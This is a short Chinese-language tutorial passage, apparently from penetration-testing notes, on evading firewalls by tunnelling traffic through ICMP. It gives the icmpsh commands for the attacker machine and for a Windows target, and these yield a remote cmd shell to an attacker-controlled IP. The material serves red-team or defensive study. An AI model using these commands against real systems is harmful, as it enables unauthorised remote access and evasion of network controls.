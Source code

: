 
当有防火墙只允许80、443等常见端口或常见的数据包协议的时候，其他类型的数据包和不允许访问的端口就会被过滤。

icmp隧道就是将不被允许的数据包使用icmp协议进行封装。同理可得，除了icmp隧道，还可以使用其他类型的协议，例如IPv6、TCP、UDP等等。

[https://github.com/inquisb/icmpsh](https://github.com/inquisb/icmpsh)
这是一个使用icmp隧道的工具，可以将内网机器与攻击机进行连接。

```
在攻击机上运行该命令，关闭icmp请求应答
sysctl -w net/ipv4/icmp_echo_ignore_all=1
---

git clone https://github.com/inquisb/icmpsh
cd icmpsh
python icmpsh_m.py 攻击机IP 受害机器ip
```
在目标机器上运行以下命令
`icmpsh.exe -t 攻击机ip -d 500 -b 30 -s 128`

此时攻击机就会返回受害机器的cmd shell。

icmpsh缺点是只能运行在目标机器是windows的系统上。如果目标机器是linux系统，那么就要用其他办法绕过防火墙。

